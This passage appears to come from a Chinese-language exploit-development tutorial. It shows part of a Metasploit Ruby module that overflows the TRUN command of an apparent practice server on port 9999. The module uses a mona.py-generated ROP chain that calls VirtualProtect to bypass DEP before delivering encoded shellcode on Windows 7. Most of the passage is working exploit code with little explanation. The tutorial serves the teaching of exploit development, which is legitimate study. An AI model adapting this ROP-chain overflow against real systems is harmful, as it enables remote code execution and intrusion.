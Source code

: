 ```
      'space' => 312, 
      'BadChars' => "\x00", 
      }, 
      'Targets' => 
       [ 
                  ['Windows 7 Professional',{ 'Offset' => 2006}] 
       ], 
      'DisclosureDate' => 'Mar 4 2018' 
   )) 
   register_options( 
   [ 
         Opt::RPORT(9999) 
   ]) 
  end 
```

我们已经编写了许多模块，并对所需的库和初始化部分非常熟悉。此外，我们不需要返回地址，因为我们使用的是自动构建机制跳转到 shellcode 的 ROP 链。让我们专注于利用部分：

```
def create_rop_chain() 

    # rop chain generated with mona.py - www.corelan.be 
    rop_gadgets =  
    [ 
      0x77dfb7e4,  # POP ECX # RETN [RPCRT4.dll]  
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll] 
      0x76a5fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll]  
      0x766a70d7,  # POP EBP # RETN [USP10.dll]  
      0x625011bb,  # & jmp esp [essfunc.dll] 
      0x777f557c,  # POP EAX # RETN [msvcrt.dll]  
      0xfffffdff,  # Value to negate, will become 0x00000201 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76a5f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll]  
      0x7779f5d4,  # POP EAX # RETN [msvcrt.dll]  
      0xffffffc0,  # Value to negate, will become 0x00000040 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76386fc0,  # XCHG EAX,EDX # RETN [kernel32.dll]  
      0x77dfd09c,  # POP ECX # RETN [RPCRT4.dll]  
      0x62504dfc,  # &Writable location [essfunc.dll] 
      0x77e461e1,  # POP EDI # RETN [RPCRT4.dll]  
      0x765e4804,  # RETN (ROP NOP) [user32.dll] 
      0x777f3836,  # POP EAX # RETN [msvcrt.dll]  
      0x90909090,  # nop 
      0x77d43c64,  # PUSHAD # RETN [ntdll.dll]  
    ].flatten.pack("V*") 

    return rop_gadgets 

  end 
  def exploit 
    connect 
    rop_chain = create_rop_chain() 
    junk = rand_text_alpha_upper(target['Offset']) 
    buf = "TRUN ."+junk + rop_chain  + make_nops(16) + payload.encoded+'rn' 
    sock.put(buf) 
    handler 
    disconnect 
  end 
end 
```

